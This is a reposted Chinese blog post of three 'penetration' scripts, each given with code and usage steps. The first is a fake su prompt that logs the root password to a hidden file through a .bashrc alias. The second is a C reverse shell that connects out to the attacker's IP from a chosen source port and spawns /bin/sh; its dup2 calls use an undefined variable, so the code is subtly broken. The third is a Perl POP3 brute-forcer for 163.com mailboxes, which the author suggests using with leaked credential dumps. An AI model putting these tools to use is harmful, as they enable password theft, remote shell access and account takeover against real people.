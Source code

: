 ```yaml
---
date: 2014/6/8 19:53:42 
layout: post
title: 学习渗透用的Python小脚本
thread: 1
categories: python
tags:  脚本 python 网络安全
---
```


#渗透用的Python小脚本
----

渗透的很多时候，找到的工具并不适用，自己码代码才是王道，下面三个程序都是渗透时在网络上找不到合适工具，自己辛苦开发的，短小使用，求欣赏，求好评。

###记录root密码小工具
root.py
	
	#!/usr/bin/python
	import os, sys, getpass, time
	 
	current_time = time.strftime("%Y-%m-%d %H:%M")
	logfile="/dev/shm/.su.log"              //密码获取后记录在这里
	#CentOS                
	#fail_str = "su: incorrect password"
	#Ubuntu             
	#fail_str = "su: Authentication failure"
	#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
	fail_str = "su: incorrect password"
	try:
	    passwd = getpass.getpass(prompt='Password: ');
	    file=open(logfile,'a')
	    file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	    file.write('n')
	    file.close()
	except:
	    pass
	time.sleep(1)
	print fail_str                               //打印切换root失败提示

渗透linux拿到低权限并提权无果时，将这个程序传上去，再将一个低权限用户目录下的.bashrc添加一句alias su=’/usr/root.py’; 低权限用户su root 后 成功记录密码。密码记录路径请看脚本

###设置源端口反弹shell
渗透某个linux服务器，反连时目标端口为888不行，53，80还是不行，

Ping了下百度 可以ping通，

那真相只有一个

服务器变态的限制了只能某些提供已某些端口为源端口去连接外面

比如

只允许接收对80端口的访问数据包，并以80为源端口向外回复数据。

谷歌程序无果，自己查了相关api后写了个。

client-port.c
	#include <stdio.h>
	#include <sys/types.h>
	#include <sys/socket.h>
	#include <netinet/in.h>
	#include <netdb.h>
	void error(char *msg)
	{
	        perror(msg);
	        exit(0);
	}
	int main(int argc, char *argv[])
	{
	        int sockfd, portno, lportno,n;
	        struct sockaddr_in serv_addr;
	        struct sockaddr_in client_addr;
	        struct hostent *server;
	        char buffer[256];
	        if (argc < 3) {
	                fprintf(stderr,"usage %s hostname port LocalPortn", argv[0]);
	                exit(0);
	        }                          //三个参数，目标主机，目标主机端口，本地源端口
	        portno = atoi(argv[2]);
	        sockfd = socket(AF_INET, SOCK_STREAM, 0);
	        if (sockfd < 0)
	                error("ERROR opening socket");
	 
	 
	        bzero((char *) &client_addr, sizeof(client_addr));
	        lportno = atoi(argv[3]);
	        client_addr.sin_family = AF_INET;
	        client_addr.sin_addr.s_addr = INADDR_ANY;
	        client_addr.sin_port = htons(lportno);         //设置源端口
	        if (bind(sockfd, (struct sockaddr *) &client_addr,
	                                sizeof(client_addr)) < 0)
	                error("ERROR on binding");
	 
	        server = gethostbyname(argv[1]);
	        if (server == NULL) {
	                fprintf(stderr,"ERROR, no such host ");
	                exit(0);
	        }
	        bzero((char *) &serv_addr, sizeof(serv_addr));
	        serv_addr.sin_family = AF_INET;
	        bcopy((char *)server->h_addr,
	                        (char *)&serv_addr.sin_addr.s_addr,
	                        server->h_length);
	        serv_addr.sin_port = htons(portno);
	        if (connect(sockfd,&serv_addr,sizeof(serv_addr)) < 0)   //连接
	                error("ERROR connecting");
	 dup2(fd, 0);
	 dup2(fd, 1);
	 dup2(fd, 2);
	 execl("/bin/sh","sh -i", NULL);                        //执行shell
	 close(fd);
	}

用法:

	gcc client-port.c -o port
	chmod +x port
	./port  你的IP 你的监听端口 本地的源端口

如 ./port  http://www.91ri.org  80  80

成功反弹shell 提权成功

###邮箱爆破脚本

某个时候 需要爆破一批邮箱

Burp163.pl

	#!/usr/bin/perl
	use Net::POP3;
	$email="pop.163.com";          //设置pop服务器地址 qq为pop.qq.com
	$pop = Net::POP3->new($email)or die("ERROR: Unable to initiate. ");
	print $pop->banner();
	$pop->quit;
	$i=0;
	open(fp1,"user.txt");     
	@array1=<fp1>;
	open(fp2,"pass.txt");
	@array2=<fp2>;                     //从文件中获取邮箱用户名及密码
	foreach $a(@array1) {
	$u=substr($a,0,length($a)-1);
	$u=$u."@163.com";
	foreach $b(@array2) {
	$p=substr($b,0,length($b)-1);
	print "cracked with ".$u."-----".$p."n";
	$i=$i+1;
	$pop = Net::POP3->new($email)or die("ERROR: Unable to initiate. ");
	$m=$pop->login($u,$p);              //尝试登录邮箱
	if($m>0)
	{
	  print $u."------------".$p."----"."success"."n";
	  $pop->quit;
	}                                //成功登录
	else
	{
	  print $u."------------".$p."----"."failed"."n";
	  $pop->quit;                                     //登录失败
	}
	}
	}
	print $i;

用法 将要爆破的邮箱的pop服务器写入下面这一行 默认是163邮箱

	$email="pop.163.com";

再将去除掉@后面部分的邮箱地址比如lusiyu@163.com 去除后lusiyu存进去

同目录user.txt中吗，再将字典存进去pass.txt

你会说

这个有点鸡肋吧 万一邮箱的密码很复杂

呵呵

搞到了一个小站的数据，

用这个程序批量测试密码是否就是邮箱密码 呵呵

我啥都没说。

这三个程序仅供技术研究，如读者用于违法行为，本人概不负责。

--------------------
转载自:http://www.91ri.org/8680.html

如有侵权请联系我.


----------
end

2014/6/9 20:02:20 



